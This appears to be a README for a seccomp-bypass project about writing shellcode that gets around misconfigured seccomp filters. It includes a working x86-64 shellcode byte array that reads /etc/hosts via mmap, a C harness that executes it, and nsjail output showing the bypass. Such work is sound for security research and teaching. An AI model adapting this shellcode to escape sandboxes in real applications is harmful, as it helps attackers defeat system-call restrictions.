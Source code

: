 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. So you need shellcode that will carry out its purpose while still adhering to the seccomp filter in place. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

**Bypasses are possible not because seccomp is flawed, but because sometimes seccomp filters are inappropriately configured. Just like an exploit takes advantage of programming mistakes, these bypasses take advantage of configuration mistakes.**

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. If it's sandboxed, you need to tailor the shellcode to include only the permitted system calls.

The code below is a generated application, contrived purely to run test shellcode from `src/`. The output is a test program that we run to confirm the shellcode's viability when injected into a foreign application.

&gt;: ./gen-shellcode.sh src/read-with-mmap.s
```c
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcodes that perform each section's goal within certain system call constraints. Each goal has one or more shellcodes using a combination of system call combinations to achieve it.

*To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy.*

## Read a file from the filesystem
### Syscalls used: `open`,`close`,`write`, `mmap`
This example is based on shellcode from `src/read-with-mmap.s`, which reads the `/etc/hosts` file without using read(2). You can see the line `127.0.0.1	localhost` present in the output below, which is a sign the seccomp filter is bypassed successfully.

Try replacing the `read` in the DENY clause with `open`,`close`,`write`, or `mmap`. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.

Generate the program:
```bash
f=`tempfile`; ./gen-shellcode.sh src/read-with-mmap.s > $f.c; gcc -static $f.c -o $f
```

Now run it with `nsjail`:
```
>:~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $f
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Executing '/tmp/fileVRncd7' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

### Syscalls used: `open`, `sendfile`
coming soon
